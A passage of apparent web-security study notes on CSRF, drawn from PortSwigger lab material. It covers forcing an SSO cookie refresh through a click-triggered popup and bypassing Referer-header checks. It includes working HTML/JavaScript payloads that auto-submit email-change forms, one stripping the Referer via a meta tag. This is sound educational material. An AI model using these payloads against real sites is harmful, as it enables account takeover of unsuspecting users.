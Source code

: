 Alternatively, you can trigger the cookie refresh from a new tab so the browser doesn't leave the page before you're able to deliver the final attack. A minor snag with this approach is that browsers block popup tabs unless they're opened via a manual interaction. For example, the following popup will be blocked by the browser by default: 

```html
window.open('https://vulnerable-website.com/login/sso');
```

To get around this, you can wrap the statement in an onclick event handler as follows: 

```html
window.onclick = () => {
    window.open('https://vulnerable-website.com/login/sso');
}
```

Example of payload:

```html
<form method="POST" action="https://0ac600cf044e8c52806ce41500a90062.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned@portswigger.net">
</form>
<p>Click anywhere on the page</p>
<script>
    window.onclick = () => {
        window.open('https://0ac600cf044e8c52806ce41500a90062.web-security-academy.net/social-login');
        setTimeout(changeEmail, 5000);
    }

    function changeEmail() {
        document.forms[0].submit();
    }
</script>
```

# Bypassing Referer-based CSRF defenses

Aside from defenses that employ CSRF tokens, some applications make use of the HTTP Referer header to attempt to defend against CSRF attacks, normally by verifying that the request originated from the application's own domain. This approach is generally less effective and is often subject to bypasses. 

## Validation of Referer depends on header being present

Some applications validate the `Referer` header when it is present in requests but skip the validation if the header is omitted.

Add `<meta name="referrer" content="never">` on your exploit:

```html
<html>
	<meta name="referrer" content="never">
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://example.com/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="t3&#64;t&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```